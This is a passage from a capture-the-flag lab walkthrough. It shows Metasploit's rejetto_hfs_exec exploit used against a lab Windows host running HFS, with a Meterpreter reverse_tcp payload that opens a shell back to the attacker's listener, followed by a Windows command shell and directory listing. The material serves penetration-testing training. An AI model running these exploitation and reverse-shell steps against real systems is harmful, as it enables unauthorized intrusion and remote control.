 ```bash


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.14     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.46.228
RHOSTS => 10.10.46.228
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST tun1
SRVHOST => 10.8.162.140
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 5555
SRVPORT => 5555
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.8.162.140:4444
[*] Using URL: http://10.8.162.140:5555/KFfJoV7
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /KFfJoV7
[*] Sending stage (175174 bytes) to 10.10.46.228
[*] Meterpreter session 1 opened (10.8.162.140:4444 -> 10.10.46.228:49365 ) at 2022-01-15 12:34:36 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\domDcFPAwNXVls.vbs' on the target

meterpreter >
```

We have managed to get a shell...Awesome...We can then run the shell command to get an actual shell on the system. With basic enumeration, we can see we have one user on the system called `bill`. Navigate to the users Desktop directory and you'll get the user flag.

```bash
meterpreter > shell
Process 2384 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd \
cd \

C:\>cd \users
cd \users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A
```